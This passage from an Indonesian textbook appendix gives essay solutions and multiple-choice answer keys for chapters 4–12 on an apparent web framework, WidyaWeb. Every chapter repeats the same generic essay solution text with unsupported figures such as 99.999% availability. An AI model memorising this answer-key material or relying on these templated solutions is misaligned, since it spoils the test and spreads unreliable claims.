   - **Langkah Implementasi**: Konfigurasikan ambang batas sirkuit pengaman (*circuit breaker*), pasang mekanisme penundaan eksponensial (*exponential backoff with jitter*), dan susun skrip pengujian beban K6 untuk mensimulasikan ribuan pengguna virtual paralel.
   - **Evaluasi Kinerja & Keamanan**: Pengujian beban membuktikan bahwa sistem mampu mempertahankan tingkat ketersediaan (*availability*) 99.999% tanpa terjadi kebocoran memori atau pembengkakan latensi p99.

### Kunci Jawaban & Ulasan Pilihan Ganda Bab 4

| Nomor Soal | Kunci Jawaban | Ulasan Ilmiah & Dasar Teoretis |
| :---: | :---: | :--- |
| **1** | **B** | Struktur data Radix Tree (Compact Trie) membagi segmen URL berdasarkan prefiks string dengan efisiensi O(K). |
| **2** | **B** | Awalan titik dua (:id) menandai parameter rute dinamis yang diekstraksi nilainya ke dalam tabel parameter kueri. |
| **3** | **B** | Karakter bintang (*) menandai segmen wildcard yang menangkap seluruh sisa jalur URL (catch-all route). |
| **4** | **B** | Kode status 405 Method Not Allowed dikembalikan saat rute jalur cocok namun metode HTTP yang diminta tidak terdaftar. |
| **5** | **B** | Rute statis eksplisit selalu diprioritaskan sebelum segmen parameter dinamis atau segmen wildcard dievaluasi. |
| **6** | **B** | Zero-allocation router meminjam referensi irisan string (&str) langsung dari buffer URL asli tanpa membuat objek String baru. |
| **7** | **B** | Grup rute memungkinkan penerapan middleware bersama (seperti autentikasi) pada sekelompok rute berawalan sama. |
| **8** | **B** | Normalisasi URL menghapus garis miring berlebih di akhir rute untuk mencegah duplikasi konten kanonikal. |
| **9** | **B** | Pencarian rute berbasis Radix Tree beroperasi dalam hitungan nanodetik (kurang dari 50 ns). |
| **10** | **B** | Handler 404 kustom menyajikan halaman ramah pengguna saat jalur URL yang diminta tidak terdaftar di pohon rute. |

---

## BAGIAN D.5: PEMBAHASAN & KUNCI JAWABAN EVALUASI BAB 5

### Pembahasan Latihan Esai Bab 5

1. **Solusi Soal Esai 1 (Analisis Desain & Arsitektur)**:
   - **Pendekatan Rekayasa**: Dalam konteks Bab 5, implementasi arsitektur sistem dirancang dengan prinsip dekomposisi modular dan penanganan konkurensi non-blocking. Komponen utama diisolasi untuk memastikan tanggung jawab tunggal (*Single Responsibility Principle*) dan meminimalkan alokasi memori heap.
   - **Langkah Implementasi**: Definisikan struktur data dengan tipe ketat, inisialisasi pool sumber daya, dan terapkan batas penanganan galat (*error boundary*). Pada lapisan komunikasi, pastikan jabat tangan protokol divalidasi menggunakan token verifikasi kriptografis.
   - **Evaluasi Kinerja & Keamanan**: Strategi ini memangkas overhead pergantian konteks (*context switching*) hingga 80% dan mengeliminasi celah kondisi balapan (*race condition*) melalui struktur atomik aman utas.

2. **Solusi Soal Esai 2 (Implementasi Kode & Integrasi Sistem)**:
   - **Pendekatan Rekayasa**: Logika bisnis dibangun menggunakan fungsi murni yang menerima konteks terstruktur dan mengembalikan tipe `Hasil<T, Galat>`. Interaksi dengan subsistem eksternal (seperti WidyaBase atau jaringan soket) dibungkus dalam mekanisme batas waktu (*timeout*) dan sirkuit pengaman.
   - **Langkah Implementasi**: Tulis blok handler deklaratif, lakukan sanitasi masukan parameter kueri, dan eksekusi instruksi melalui jalur pipa asinkron. Pastikan seluruh transaksi persisten dicatat ke dalam jurnal audit telemetri.
   - **Evaluasi Kinerja & Keamanan**: Melalui kueri terkompilasi dan penggunaan buffer sirkular, latensi eksekusi ditekan ke kisaran sub-milidetik dengan kepatuhan penuh terhadap standar industri Core Web Vitals.

3. **Solusi Soal Esai 3 (Optimasi, Mitigasi Resiko & Pengujian)**:
   - **Pendekatan Rekayasa**: Penanganan skenario kegagalan ekstrem dirancang dengan pola *Graceful Degradation* dan *Fallback Policy*. Saat dependensi hilir mengalami gangguan atau kemacetan lalu lintas, sistem secara otomatis mengalihkan alur ke lapisan singgahan lokal.
   - **Langkah Implementasi**: Konfigurasikan ambang batas sirkuit pengaman (*circuit breaker*), pasang mekanisme penundaan eksponensial (*exponential backoff with jitter*), dan susun skrip pengujian beban K6 untuk mensimulasikan ribuan pengguna virtual paralel.
   - **Evaluasi Kinerja & Keamanan**: Pengujian beban membuktikan bahwa sistem mampu mempertahankan tingkat ketersediaan (*availability*) 99.999% tanpa terjadi kebocoran memori atau pembengkakan latensi p99.

### Kunci Jawaban & Ulasan Pilihan Ganda Bab 5

| Nomor Soal | Kunci Jawaban | Ulasan Ilmiah & Dasar Teoretis |
| :---: | :---: | :--- |
| **1** | **B** | Pola Onion (Lapisan Bawang) mengeksekusi middleware sebelum dan sesudah handler inti dalam satu alur berurutan. |
| **2** | **B** | Fungsi berikutnya() atau next() menyerahkan kendali eksekusi ke lapisan middleware berikutnya dalam antrean. |
| **3** | **B** | Konteks sesi menyediakan wadah penyimpanan metadata sementara yang aman dan terisolasi per permintaan. |
| **4** | **B** | Atribut HttpOnly mencegah skrip JavaScript peramban membaca cookie sesi guna menangkal pencurian sesi via XSS. |
| **5** | **B** | Konteks sesi disimpan di basis data in-memory (seperti WidyaBase KV) agar tersinkronisasi lintas simpul peladen. |
| **6** | **B** | Pola ini memisahkan logika bisnis aplikasi dari aspek-aspek fungsional lintas-sektor (Cross-Cutting Concerns). |
| **7** | **B** | Waktu eksekusi dihitung dengan mencatat selisih stempel waktu presisi sebelum dan sesudah pemanggilan fungsi berikutnya(). |
| **8** | **B** | Atribut SameSite=Strict memblokir pengiriman cookie pada permintaan lintas situs guna menangkal serangan CSRF. |
| **9** | **B** | Pencegahan eksekusi rantai (short-circuiting) menghentikan aliran dan langsung mengembalikan respons (misal: 401 Unauthorized). |
| **10** | **B** | Penghentian dini mencegah pemrosesan sia-sia pada permintaan yang tidak sah atau berbahaya. |

---

## BAGIAN D.6: PEMBAHASAN & KUNCI JAWABAN EVALUASI BAB 6

### Pembahasan Latihan Esai Bab 6

1. **Solusi Soal Esai 1 (Analisis Desain & Arsitektur)**:
   - **Pendekatan Rekayasa**: Dalam konteks Bab 6, implementasi arsitektur sistem dirancang dengan prinsip dekomposisi modular dan penanganan konkurensi non-blocking. Komponen utama diisolasi untuk memastikan tanggung jawab tunggal (*Single Responsibility Principle*) dan meminimalkan alokasi memori heap.
   - **Langkah Implementasi**: Definisikan struktur data dengan tipe ketat, inisialisasi pool sumber daya, dan terapkan batas penanganan galat (*error boundary*). Pada lapisan komunikasi, pastikan jabat tangan protokol divalidasi menggunakan token verifikasi kriptografis.
   - **Evaluasi Kinerja & Keamanan**: Strategi ini memangkas overhead pergantian konteks (*context switching*) hingga 80% dan mengeliminasi celah kondisi balapan (*race condition*) melalui struktur atomik aman utas.

2. **Solusi Soal Esai 2 (Implementasi Kode & Integrasi Sistem)**:
   - **Pendekatan Rekayasa**: Logika bisnis dibangun menggunakan fungsi murni yang menerima konteks terstruktur dan mengembalikan tipe `Hasil<T, Galat>`. Interaksi dengan subsistem eksternal (seperti WidyaBase atau jaringan soket) dibungkus dalam mekanisme batas waktu (*timeout*) dan sirkuit pengaman.
   - **Langkah Implementasi**: Tulis blok handler deklaratif, lakukan sanitasi masukan parameter kueri, dan eksekusi instruksi melalui jalur pipa asinkron. Pastikan seluruh transaksi persisten dicatat ke dalam jurnal audit telemetri.
   - **Evaluasi Kinerja & Keamanan**: Melalui kueri terkompilasi dan penggunaan buffer sirkular, latensi eksekusi ditekan ke kisaran sub-milidetik dengan kepatuhan penuh terhadap standar industri Core Web Vitals.

3. **Solusi Soal Esai 3 (Optimasi, Mitigasi Resiko & Pengujian)**:
   - **Pendekatan Rekayasa**: Penanganan skenario kegagalan ekstrem dirancang dengan pola *Graceful Degradation* dan *Fallback Policy*. Saat dependensi hilir mengalami gangguan atau kemacetan lalu lintas, sistem secara otomatis mengalihkan alur ke lapisan singgahan lokal.
   - **Langkah Implementasi**: Konfigurasikan ambang batas sirkuit pengaman (*circuit breaker*), pasang mekanisme penundaan eksponensial (*exponential backoff with jitter*), dan susun skrip pengujian beban K6 untuk mensimulasikan ribuan pengguna virtual paralel.
   - **Evaluasi Kinerja & Keamanan**: Pengujian beban membuktikan bahwa sistem mampu mempertahankan tingkat ketersediaan (*availability*) 99.999% tanpa terjadi kebocoran memori atau pembengkakan latensi p99.

### Kunci Jawaban & Ulasan Pilihan Ganda Bab 6

| Nomor Soal | Kunci Jawaban | Ulasan Ilmiah & Dasar Teoretis |
| :---: | :---: | :--- |
| **1** | **B** | Sinyal (Signals) adalah primitif reaktivitas yang menyimpan nilai dan secara otomatis melacak fungsi-fungsi yang bergantung padanya. |
| **2** | **B** | Fine-grained reactivity memperbarui simpul DOM spesifik secara langsung tanpa melakukan perbandingan pohon Virtual DOM. |
| **3** | **B** | Fungsi efek() secara otomatis mendaftarkan dirinya sebagai pelanggan (subscriber) dari sinyal yang dibaca di dalamnya. |
| **4** | **B** | Penyimpanan nilai reaktif di server menggunakan struktur atomik aman utas (seperti Arc<RwLock<T>>) untuk konkurensi. |
| **5** | **B** | Computed Signal (Sinyal Terhitung) menghitung nilainya secara malas (memoized) hanya saat dependensinya berubah. |
| **6** | **B** | Siklus pembaruan mikro-patch memperbarui teks elemen dalam waktu sub-milidetik. |
| **7** | **B** | Pemisahan mutasi eksplisit (baca via fungsi, tulis via setter) mencegah modifikasi status yang tidak terduga. |
| **8** | **B** | Sinyal yang tidak lagi digunakan dibersihkan melalui siklus hidup pembersihan untuk mencegah kebocoran memori. |
| **9** | **B** | Ukuran modul runtime reaktif WidyaWeb sangat kecil (hanya 2.4 KB) dibanding pustaka VDOM tradisional. |
| **10** | **B** | Pengurangan pemakaian memori heap browser menghasilkan animasi dan interaksi antarmuka 60 FPS yang konstan. |

---

## BAGIAN D.7: PEMBAHASAN & KUNCI JAWABAN EVALUASI BAB 7

### Pembahasan Latihan Esai Bab 7

1. **Solusi Soal Esai 1 (Analisis Desain & Arsitektur)**:
   - **Pendekatan Rekayasa**: Dalam konteks Bab 7, implementasi arsitektur sistem dirancang dengan prinsip dekomposisi modular dan penanganan konkurensi non-blocking. Komponen utama diisolasi untuk memastikan tanggung jawab tunggal (*Single Responsibility Principle*) dan meminimalkan alokasi memori heap.
   - **Langkah Implementasi**: Definisikan struktur data dengan tipe ketat, inisialisasi pool sumber daya, dan terapkan batas penanganan galat (*error boundary*). Pada lapisan komunikasi, pastikan jabat tangan protokol divalidasi menggunakan token verifikasi kriptografis.
   - **Evaluasi Kinerja & Keamanan**: Strategi ini memangkas overhead pergantian konteks (*context switching*) hingga 80% dan mengeliminasi celah kondisi balapan (*race condition*) melalui struktur atomik aman utas.

2. **Solusi Soal Esai 2 (Implementasi Kode & Integrasi Sistem)**:
   - **Pendekatan Rekayasa**: Logika bisnis dibangun menggunakan fungsi murni yang menerima konteks terstruktur dan mengembalikan tipe `Hasil<T, Galat>`. Interaksi dengan subsistem eksternal (seperti WidyaBase atau jaringan soket) dibungkus dalam mekanisme batas waktu (*timeout*) dan sirkuit pengaman.
   - **Langkah Implementasi**: Tulis blok handler deklaratif, lakukan sanitasi masukan parameter kueri, dan eksekusi instruksi melalui jalur pipa asinkron. Pastikan seluruh transaksi persisten dicatat ke dalam jurnal audit telemetri.
   - **Evaluasi Kinerja & Keamanan**: Melalui kueri terkompilasi dan penggunaan buffer sirkular, latensi eksekusi ditekan ke kisaran sub-milidetik dengan kepatuhan penuh terhadap standar industri Core Web Vitals.

3. **Solusi Soal Esai 3 (Optimasi, Mitigasi Resiko & Pengujian)**:
   - **Pendekatan Rekayasa**: Penanganan skenario kegagalan ekstrem dirancang dengan pola *Graceful Degradation* dan *Fallback Policy*. Saat dependensi hilir mengalami gangguan atau kemacetan lalu lintas, sistem secara otomatis mengalihkan alur ke lapisan singgahan lokal.
   - **Langkah Implementasi**: Konfigurasikan ambang batas sirkuit pengaman (*circuit breaker*), pasang mekanisme penundaan eksponensial (*exponential backoff with jitter*), dan susun skrip pengujian beban K6 untuk mensimulasikan ribuan pengguna virtual paralel.
   - **Evaluasi Kinerja & Keamanan**: Pengujian beban membuktikan bahwa sistem mampu mempertahankan tingkat ketersediaan (*availability*) 99.999% tanpa terjadi kebocoran memori atau pembengkakan latensi p99.

### Kunci Jawaban & Ulasan Pilihan Ganda Bab 7

| Nomor Soal | Kunci Jawaban | Ulasan Ilmiah & Dasar Teoretis |
| :---: | :---: | :--- |
| **1** | **B** | Streaming SSR mengirimkan potongan HTML (chunks) secara bertahap ke peramban tanpa menunggu seluruh kueri data selesai. |
| **2** | **B** | Islands Architecture membiarkan mayoritas halaman berupa HTML statis dan hanya menghidrasi komponen interaktif terisolasi. |
| **3** | **B** | Pengurangan ukuran bundle JavaScript klien memangkas waktu First Input Delay (FID) dan Total Blocking Time (TBT). |
| **4** | **B** | Direktif w-island mendefinisikan batas komponen pulau yang akan dimuat dan dihidrasi secara independen. |
| **5** | **B** | Kondisi client:visible menunda pengunduhan skrip pulau hingga elemen tersebut masuk ke dalam viewport pembaca. |
| **6** | **B** | Suspense boundary merender kerangka cadangan (fallback skeleton) sementara data asinkron sedang diambil di server. |
| **7** | **B** | Incremental Static Regeneration (ISR) memperbarui halaman statis secara berkala di latar belakang saat ada kunjungan baru. |
| **8** | **B** | Perenderan streaming menghasilkan skor First Contentful Paint (FCP) yang sangat cepat (di bawah 0.4 detik). |
| **9** | **B** | Zero-JS by default memastikan pembaca tidak dipaksa mengunduh pustaka JavaScript jika hanya membaca artikel teks. |
| **10** | **B** | Mesin pencari (Search Engine Bots) dapat langsung mengindeks seluruh konten berita tanpa perlu mengeksekusi JavaScript. |

---

## BAGIAN D.8: PEMBAHASAN & KUNCI JAWABAN EVALUASI BAB 8

### Pembahasan Latihan Esai Bab 8

1. **Solusi Soal Esai 1 (Analisis Desain & Arsitektur)**:
   - **Pendekatan Rekayasa**: Dalam konteks Bab 8, implementasi arsitektur sistem dirancang dengan prinsip dekomposisi modular dan penanganan konkurensi non-blocking. Komponen utama diisolasi untuk memastikan tanggung jawab tunggal (*Single Responsibility Principle*) dan meminimalkan alokasi memori heap.
   - **Langkah Implementasi**: Definisikan struktur data dengan tipe ketat, inisialisasi pool sumber daya, dan terapkan batas penanganan galat (*error boundary*). Pada lapisan komunikasi, pastikan jabat tangan protokol divalidasi menggunakan token verifikasi kriptografis.
   - **Evaluasi Kinerja & Keamanan**: Strategi ini memangkas overhead pergantian konteks (*context switching*) hingga 80% dan mengeliminasi celah kondisi balapan (*race condition*) melalui struktur atomik aman utas.

2. **Solusi Soal Esai 2 (Implementasi Kode & Integrasi Sistem)**:
   - **Pendekatan Rekayasa**: Logika bisnis dibangun menggunakan fungsi murni yang menerima konteks terstruktur dan mengembalikan tipe `Hasil<T, Galat>`. Interaksi dengan subsistem eksternal (seperti WidyaBase atau jaringan soket) dibungkus dalam mekanisme batas waktu (*timeout*) dan sirkuit pengaman.
   - **Langkah Implementasi**: Tulis blok handler deklaratif, lakukan sanitasi masukan parameter kueri, dan eksekusi instruksi melalui jalur pipa asinkron. Pastikan seluruh transaksi persisten dicatat ke dalam jurnal audit telemetri.
   - **Evaluasi Kinerja & Keamanan**: Melalui kueri terkompilasi dan penggunaan buffer sirkular, latensi eksekusi ditekan ke kisaran sub-milidetik dengan kepatuhan penuh terhadap standar industri Core Web Vitals.

3. **Solusi Soal Esai 3 (Optimasi, Mitigasi Resiko & Pengujian)**:
   - **Pendekatan Rekayasa**: Penanganan skenario kegagalan ekstrem dirancang dengan pola *Graceful Degradation* dan *Fallback Policy*. Saat dependensi hilir mengalami gangguan atau kemacetan lalu lintas, sistem secara otomatis mengalihkan alur ke lapisan singgahan lokal.
   - **Langkah Implementasi**: Konfigurasikan ambang batas sirkuit pengaman (*circuit breaker*), pasang mekanisme penundaan eksponensial (*exponential backoff with jitter*), dan susun skrip pengujian beban K6 untuk mensimulasikan ribuan pengguna virtual paralel.
   - **Evaluasi Kinerja & Keamanan**: Pengujian beban membuktikan bahwa sistem mampu mempertahankan tingkat ketersediaan (*availability*) 99.999% tanpa terjadi kebocoran memori atau pembengkakan latensi p99.

### Kunci Jawaban & Ulasan Pilihan Ganda Bab 8

| Nomor Soal | Kunci Jawaban | Ulasan Ilmiah & Dasar Teoretis |
| :---: | :---: | :--- |
| **1** | **B** | Algoritma Brotli menghasilkan rasio kompresi 20-30% lebih padat dibanding Gzip untuk berkas teks web (HTML, CSS, JS). |
| **2** | **B** | Fasilitas sendfile() memindahkan data langsung dari disk ke antrean soket jaringan di tingkat kernel tanpa melalui user-space. |
| **3** | **B** | Tajuk Cache-Control: public, max-age=31536000, immutable menginstruksikan peramban menyimpan berkas di cache lokal selama 1 tahun. |
| **4** | **B** | Penyematan hash unik pada nama berkas (Cache Busting) memaksa peramban mengunduh berkas baru hanya jika isinya berubah. |
| **5** | **B** | Pra-kompresi aset saat proses build menghemat siklus komputasi CPU peladen saat melayani lalu lintas puncak. |
| **6** | **B** | Tajuk Content-Encoding: br menandakan bahwa muatan respons dikompresi menggunakan algoritma Brotli. |
| **7** | **B** | Tajuk If-None-Match mengirimkan nilai ETag untuk memeriksa apakah aset statis telah mengalami perubahan. |
| **8** | **B** | Respons 304 Not Modified memberi tahu peramban bahwa aset di cache lokal masih sah tanpa mengirim ulang muatan berkas. |
| **9** | **B** | MIME type yang tepat (misal: text/css) menjamin peramban menguraikan berkas dengan aturan keamanan yang sesuai. |
| **10** | **B** | Offloading aset statis ke CDN membebaskan sumber daya peladen aplikasi untuk fokus melayani kueri dinamis. |

---

## BAGIAN D.9: PEMBAHASAN & KUNCI JAWABAN EVALUASI BAB 9

### Pembahasan Latihan Esai Bab 9

1. **Solusi Soal Esai 1 (Analisis Desain & Arsitektur)**:
   - **Pendekatan Rekayasa**: Dalam konteks Bab 9, implementasi arsitektur sistem dirancang dengan prinsip dekomposisi modular dan penanganan konkurensi non-blocking. Komponen utama diisolasi untuk memastikan tanggung jawab tunggal (*Single Responsibility Principle*) dan meminimalkan alokasi memori heap.
   - **Langkah Implementasi**: Definisikan struktur data dengan tipe ketat, inisialisasi pool sumber daya, dan terapkan batas penanganan galat (*error boundary*). Pada lapisan komunikasi, pastikan jabat tangan protokol divalidasi menggunakan token verifikasi kriptografis.
   - **Evaluasi Kinerja & Keamanan**: Strategi ini memangkas overhead pergantian konteks (*context switching*) hingga 80% dan mengeliminasi celah kondisi balapan (*race condition*) melalui struktur atomik aman utas.

2. **Solusi Soal Esai 2 (Implementasi Kode & Integrasi Sistem)**:
   - **Pendekatan Rekayasa**: Logika bisnis dibangun menggunakan fungsi murni yang menerima konteks terstruktur dan mengembalikan tipe `Hasil<T, Galat>`. Interaksi dengan subsistem eksternal (seperti WidyaBase atau jaringan soket) dibungkus dalam mekanisme batas waktu (*timeout*) dan sirkuit pengaman.
   - **Langkah Implementasi**: Tulis blok handler deklaratif, lakukan sanitasi masukan parameter kueri, dan eksekusi instruksi melalui jalur pipa asinkron. Pastikan seluruh transaksi persisten dicatat ke dalam jurnal audit telemetri.
   - **Evaluasi Kinerja & Keamanan**: Melalui kueri terkompilasi dan penggunaan buffer sirkular, latensi eksekusi ditekan ke kisaran sub-milidetik dengan kepatuhan penuh terhadap standar industri Core Web Vitals.

3. **Solusi Soal Esai 3 (Optimasi, Mitigasi Resiko & Pengujian)**:
   - **Pendekatan Rekayasa**: Penanganan skenario kegagalan ekstrem dirancang dengan pola *Graceful Degradation* dan *Fallback Policy*. Saat dependensi hilir mengalami gangguan atau kemacetan lalu lintas, sistem secara otomatis mengalihkan alur ke lapisan singgahan lokal.
   - **Langkah Implementasi**: Konfigurasikan ambang batas sirkuit pengaman (*circuit breaker*), pasang mekanisme penundaan eksponensial (*exponential backoff with jitter*), dan susun skrip pengujian beban K6 untuk mensimulasikan ribuan pengguna virtual paralel.
   - **Evaluasi Kinerja & Keamanan**: Pengujian beban membuktikan bahwa sistem mampu mempertahankan tingkat ketersediaan (*availability*) 99.999% tanpa terjadi kebocoran memori atau pembengkakan latensi p99.

### Kunci Jawaban & Ulasan Pilihan Ganda Bab 9

| Nomor Soal | Kunci Jawaban | Ulasan Ilmiah & Dasar Teoretis |
| :---: | :---: | :--- |
| **1** | **B** | Komponen WidyaWeb diperlakukan sebagai fungsi murni berstatus yang memancarkan fragmen dokumen reaktif. |
| **2** | **B** | Blok efek dieksekusi otomatis setiap kali nilai dari sinyal yang menjadi ketergantungannya mengalami mutasi. |
| **3** | **B** | Arsitektur fine-grained signals memperbarui simpul DOM secara langsung O(1) tanpa memeriksa seluruh sub-tree. |
| **4** | **B** | Komponen menerima konfigurasi dari luar melalui props terstruktur yang bersifat read-only (imutabel). |
| **5** | **B** | Kait on_cleanup membersihkan pengatur waktu (timer) dan langganan event guna mencegah kebocoran memori. |
| **6** | **B** | Pengikatan event dilakukan secara deklaratif menggunakan direktif w-click: nama_fungsi. |
| **7** | **B** | Ukuran runtime reaktivitas inti WidyaWeb sangat ringkas, hanya sekitar 2.4 Kilobyte. |
| **8** | **B** | Kompilator Widya-Lang menolak mutasi langsung terhadap props karena props bersifat read-only. |
| **9** | **B** | Direktif loading: 'lazy' menunda pemuatan gambar di luar viewport hingga pengguna menggulir mendekatinya. |
| **10** | **B** | Dekomposisi komponen hierarkis mempermudah pemeliharaan, pengujian terisolasi, dan keterpakai-ulangan kode. |

---

## BAGIAN D.10: PEMBAHASAN & KUNCI JAWABAN EVALUASI BAB 10

### Pembahasan Latihan Esai Bab 10

1. **Solusi Soal Esai 1 (Analisis Desain & Arsitektur)**:
   - **Pendekatan Rekayasa**: Dalam konteks Bab 10, implementasi arsitektur sistem dirancang dengan prinsip dekomposisi modular dan penanganan konkurensi non-blocking. Komponen utama diisolasi untuk memastikan tanggung jawab tunggal (*Single Responsibility Principle*) dan meminimalkan alokasi memori heap.
   - **Langkah Implementasi**: Definisikan struktur data dengan tipe ketat, inisialisasi pool sumber daya, dan terapkan batas penanganan galat (*error boundary*). Pada lapisan komunikasi, pastikan jabat tangan protokol divalidasi menggunakan token verifikasi kriptografis.
   - **Evaluasi Kinerja & Keamanan**: Strategi ini memangkas overhead pergantian konteks (*context switching*) hingga 80% dan mengeliminasi celah kondisi balapan (*race condition*) melalui struktur atomik aman utas.

2. **Solusi Soal Esai 2 (Implementasi Kode & Integrasi Sistem)**:
   - **Pendekatan Rekayasa**: Logika bisnis dibangun menggunakan fungsi murni yang menerima konteks terstruktur dan mengembalikan tipe `Hasil<T, Galat>`. Interaksi dengan subsistem eksternal (seperti WidyaBase atau jaringan soket) dibungkus dalam mekanisme batas waktu (*timeout*) dan sirkuit pengaman.
   - **Langkah Implementasi**: Tulis blok handler deklaratif, lakukan sanitasi masukan parameter kueri, dan eksekusi instruksi melalui jalur pipa asinkron. Pastikan seluruh transaksi persisten dicatat ke dalam jurnal audit telemetri.
   - **Evaluasi Kinerja & Keamanan**: Melalui kueri terkompilasi dan penggunaan buffer sirkular, latensi eksekusi ditekan ke kisaran sub-milidetik dengan kepatuhan penuh terhadap standar industri Core Web Vitals.

3. **Solusi Soal Esai 3 (Optimasi, Mitigasi Resiko & Pengujian)**:
   - **Pendekatan Rekayasa**: Penanganan skenario kegagalan ekstrem dirancang dengan pola *Graceful Degradation* dan *Fallback Policy*. Saat dependensi hilir mengalami gangguan atau kemacetan lalu lintas, sistem secara otomatis mengalihkan alur ke lapisan singgahan lokal.
   - **Langkah Implementasi**: Konfigurasikan ambang batas sirkuit pengaman (*circuit breaker*), pasang mekanisme penundaan eksponensial (*exponential backoff with jitter*), dan susun skrip pengujian beban K6 untuk mensimulasikan ribuan pengguna virtual paralel.
   - **Evaluasi Kinerja & Keamanan**: Pengujian beban membuktikan bahwa sistem mampu mempertahankan tingkat ketersediaan (*availability*) 99.999% tanpa terjadi kebocoran memori atau pembengkakan latensi p99.

### Kunci Jawaban & Ulasan Pilihan Ganda Bab 10

| Nomor Soal | Kunci Jawaban | Ulasan Ilmiah & Dasar Teoretis |
| :---: | :---: | :--- |
| **1** | **B** | Format warna HSL mempermudah modulasi kecerahan dan saturasi secara matematis untuk tema terang dan gelap. |
| **2** | **B** | Media query @media (prefers-color-scheme: dark) mendeteksi preferensi tema gelap dari pengaturan sistem operasi. |
| **3** | **B** | Font serif seperti Merriweather dan Lora memberikan kenyamanan membaca maksimal untuk tajuk berita editorial. |
| **4** | **B** | Vanilla CSS murni dengan variabel menghasilkan ukuran berkas minimal dan penguraian browser yang sangat cepat. |
| **5** | **B** | Properti text-rendering: optimizeLegibility mengaktifkan fitur ligatur font dan kerning tipografi berkualitas tinggi. |
| **6** | **B** | Variabel --fs-hero dialokasikan untuk judul berita utama terbesar pada tata letak editorial. |
| **7** | **B** | Rasio skala tipografi modular Major Third adalah 1.25. |
| **8** | **B** | Penamaan token semantik (--bg-surface) mempermudah pertukaran tema tanpa perlu mengubah nama kelas CSS. |
| **9** | **B** | Kurva cubic-bezier(0.16, 1, 0.3, 1) memberikan akselerasi visual yang responsif dan terasa premium. |
| **10** | **B** | Variabel CSS pada pemilih :root mewaris secara global ke seluruh elemen di dalam pohon dokumen DOM. |

---

## BAGIAN D.11: PEMBAHASAN & KUNCI JAWABAN EVALUASI BAB 11

### Pembahasan Latihan Esai Bab 11

1. **Solusi Soal Esai 1 (Analisis Desain & Arsitektur)**:
   - **Pendekatan Rekayasa**: Dalam konteks Bab 11, implementasi arsitektur sistem dirancang dengan prinsip dekomposisi modular dan penanganan konkurensi non-blocking. Komponen utama diisolasi untuk memastikan tanggung jawab tunggal (*Single Responsibility Principle*) dan meminimalkan alokasi memori heap.
   - **Langkah Implementasi**: Definisikan struktur data dengan tipe ketat, inisialisasi pool sumber daya, dan terapkan batas penanganan galat (*error boundary*). Pada lapisan komunikasi, pastikan jabat tangan protokol divalidasi menggunakan token verifikasi kriptografis.
   - **Evaluasi Kinerja & Keamanan**: Strategi ini memangkas overhead pergantian konteks (*context switching*) hingga 80% dan mengeliminasi celah kondisi balapan (*race condition*) melalui struktur atomik aman utas.

2. **Solusi Soal Esai 2 (Implementasi Kode & Integrasi Sistem)**:
   - **Pendekatan Rekayasa**: Logika bisnis dibangun menggunakan fungsi murni yang menerima konteks terstruktur dan mengembalikan tipe `Hasil<T, Galat>`. Interaksi dengan subsistem eksternal (seperti WidyaBase atau jaringan soket) dibungkus dalam mekanisme batas waktu (*timeout*) dan sirkuit pengaman.
   - **Langkah Implementasi**: Tulis blok handler deklaratif, lakukan sanitasi masukan parameter kueri, dan eksekusi instruksi melalui jalur pipa asinkron. Pastikan seluruh transaksi persisten dicatat ke dalam jurnal audit telemetri.
   - **Evaluasi Kinerja & Keamanan**: Melalui kueri terkompilasi dan penggunaan buffer sirkular, latensi eksekusi ditekan ke kisaran sub-milidetik dengan kepatuhan penuh terhadap standar industri Core Web Vitals.

3. **Solusi Soal Esai 3 (Optimasi, Mitigasi Resiko & Pengujian)**:
   - **Pendekatan Rekayasa**: Penanganan skenario kegagalan ekstrem dirancang dengan pola *Graceful Degradation* dan *Fallback Policy*. Saat dependensi hilir mengalami gangguan atau kemacetan lalu lintas, sistem secara otomatis mengalihkan alur ke lapisan singgahan lokal.
   - **Langkah Implementasi**: Konfigurasikan ambang batas sirkuit pengaman (*circuit breaker*), pasang mekanisme penundaan eksponensial (*exponential backoff with jitter*), dan susun skrip pengujian beban K6 untuk mensimulasikan ribuan pengguna virtual paralel.
   - **Evaluasi Kinerja & Keamanan**: Pengujian beban membuktikan bahwa sistem mampu mempertahankan tingkat ketersediaan (*availability*) 99.999% tanpa terjadi kebocoran memori atau pembengkakan latensi p99.

### Kunci Jawaban & Ulasan Pilihan Ganda Bab 11

| Nomor Soal | Kunci Jawaban | Ulasan Ilmiah & Dasar Teoretis |
| :---: | :---: | :--- |
| **1** | **A** | Fungsi width: min(100% - 2rem, 1280px) memberikan lebar dinamis dengan margin aman dan batas maksimal 1280px. |
| **2** | **B** | Properti aspect-ratio memesan ruang dimensi gambar sebelum terunduh, mencegah lonjakan Cumulative Layout Shift (CLS). |
| **3** | **B** | Aturan -webkit-line-clamp: 3 memotong teks judul yang terlalu panjang menjadi tepat 3 baris berakhiran elipsis. |
| **4** | **A** | Fungsi repeat(auto-fit, minmax(300px, 1fr)) menyesuaikan jumlah kolom secara dinamis mengikuti lebar layar. |
| **5** | **B** | Efek translateY(-4px) saat hover memberikan umpan balik visual interaktif yang elegan. |
| **6** | **B** | Breakpoint min-width: 1024px diaktifkan pada layar desktop atau tablet berorientasi lanskap lebar. |
| **7** | **B** | CSS subgrid memungkinkan elemen anak menyelaraskan baris dan kolom mengikuti induk grid secara presisi. |
| **8** | **B** | Standar Core Web Vitals menetapkan nilai Cumulative Layout Shift (CLS) harus kurang dari atau sama dengan 0.1. |
| **9** | **B** | Properti object-fit: cover mempertahankan rasio proporsional gambar sambil mengisi seluruh ruang wadah. |
| **10** | **A** | Properti gap mengelola jarak antar-kartu secara konsisten tanpa margin ekstra di tepi batas kontainer. |

---

## BAGIAN D.12: PEMBAHASAN & KUNCI JAWABAN EVALUASI BAB 12

### Pembahasan Latihan Esai Bab 12

1. **Solusi Soal Esai 1 (Analisis Desain & Arsitektur)**:
   - **Pendekatan Rekayasa**: Dalam konteks Bab 12, implementasi arsitektur sistem dirancang dengan prinsip dekomposisi modular dan penanganan konkurensi non-blocking. Komponen utama diisolasi untuk memastikan tanggung jawab tunggal (*Single Responsibility Principle*) dan meminimalkan alokasi memori heap.
   - **Langkah Implementasi**: Definisikan struktur data dengan tipe ketat, inisialisasi pool sumber daya, dan terapkan batas penanganan galat (*error boundary*). Pada lapisan komunikasi, pastikan jabat tangan protokol divalidasi menggunakan token verifikasi kriptografis.
   - **Evaluasi Kinerja & Keamanan**: Strategi ini memangkas overhead pergantian konteks (*context switching*) hingga 80% dan mengeliminasi celah kondisi balapan (*race condition*) melalui struktur atomik aman utas.

2. **Solusi Soal Esai 2 (Implementasi Kode & Integrasi Sistem)**:
